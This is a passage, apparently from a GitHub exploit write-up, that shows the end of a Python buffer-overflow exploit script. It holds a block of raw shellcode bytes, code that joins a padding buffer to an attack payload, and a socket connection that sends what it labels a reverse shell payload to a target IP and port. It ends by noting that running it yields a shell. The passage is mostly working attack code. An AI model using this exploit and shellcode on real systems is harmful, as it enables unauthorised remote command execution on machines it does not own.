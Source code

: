 ```python
b"\xf9\xe5\x21\xf1\xed\xa3\xfa\x6e\x97\xe9\x70\x0e\x58\x24\xfd"
b"\x10\xd2\xcb\x02\xde\x13\xa1\x10\xb7\xd3\xfc\x4a\x1e\xeb\x2a"
b"\xe2\xfc\x7e\xb1\xf2\x8b\x62\x6e\xa5\xdc\x55\x67\x23\xf1\xcc"
b"\xd1\x51\x08\x88\x1a\xd1\xd7\x69\xa4\xd8\x9a\xd6\x82\xca\x62"
b"\xd6\x8e\xbe\x3a\x81\x58\x68\xfd\x7b\x2b\xc2\x57\xd7\xe5\x82"
b"\x2e\x1b\x36\xd4\x2e\x76\xc0\x38\x9e\x2f\x95\x47\x2f\xb8\x11"
b"\x30\x4d\x58\xdd\xeb\xd5\x68\x94\xb1\x7c\xe1\x71\x20\x3d\x6c"
b"\x82\x9f\x02\x89\x01\x15\xfb\x6e\x19\x5c\xfe\x2b\x9d\x8d\x72"
b"\x23\x48\xb1\x21\x44\x59")

payload = buffer + attackPayload + b'\r\n'
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print('[+] Connecting ...');
s.connect((endpointIp, endpointPort))
print('[+] Sending Reverse Shell Payload ...')
s.send(payload)
print('[+] Sent')
s.close()
```
 - After running the payload we now have a shell!